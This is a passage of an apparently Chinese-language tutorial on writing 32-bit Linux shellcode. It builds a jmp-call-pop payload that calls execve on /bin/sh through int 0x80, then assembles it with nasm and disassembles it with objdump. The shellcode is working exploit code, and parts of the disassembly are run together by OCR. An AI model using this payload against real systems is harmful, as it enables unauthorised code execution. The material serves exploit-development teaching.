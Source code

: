 然后设置`$eax, $ecx, $edx`寄存器，最后呼叫系统调用。

```asm
	mov al, 11
	lea ecx, [ebx+8]
	lea edx, [ebx+12]
	int 0x80
```

最终完整代码如下

```asm
[SECTION .text]

global _start

_start:
	jmp short ender

starter:
	pop ebx
	xor eax, eax
	mov [ebx+7], al
	mov [ebx+8], ebx
	mov [ebx+12], eax
	mov al, 11
	lea ecx, [ebx+8]
	lea edx, [ebx+12]
	int 0x80

ender:
	call starter
	db '/bin/sh'
```

## 编译shellcode

将代码保存在`shell.asm`文件中，用汇编器`nasm`编译（Ubuntu 下可直接用 `sudo apt install nasm` 安装）。

```bash
$ nasm -f elf shell.asm
```

命令生成了`shell.o`文件。使用`objdump`命令查看编译好的代码。

```asm
$ objdump -d shell.o

shell.o:     file format elf32-i386
Disassembly of section .text:00000000
<_start>:
   0:	eb 16                	jmp    18 <ender>00000002 <starter>:
   2:	5b                   	pop    %ebx
   3:	31 c0                	xor    %eax,%eax
   5:	88 43 07             	mov    %al,0x7(%ebx)
   8:	89 5b 08             	mov    %ebx,0x8(%ebx)
   b:	89 43 0c             	mov    %eax,0xc(%ebx)
   e:	b0 0b                	mov    $0xb,%al
   10:	8d 4b 08             	lea    0x8(%ebx),%ecx
   13:	8d 53 0c             	lea    0xc(%ebx),%edx
   16:	cd 80                	int    $0x8000000018 <ender>:
   18:	e8 e5 ff ff ff       	call   2 <starter>
   1d:	2f                   	das
   1e:	62 69 6e             	bound  %ebp,0x6e(%ecx)
   21:	2f                   	das
   22:	73 68                	jae    8c <ender+0x74>
```
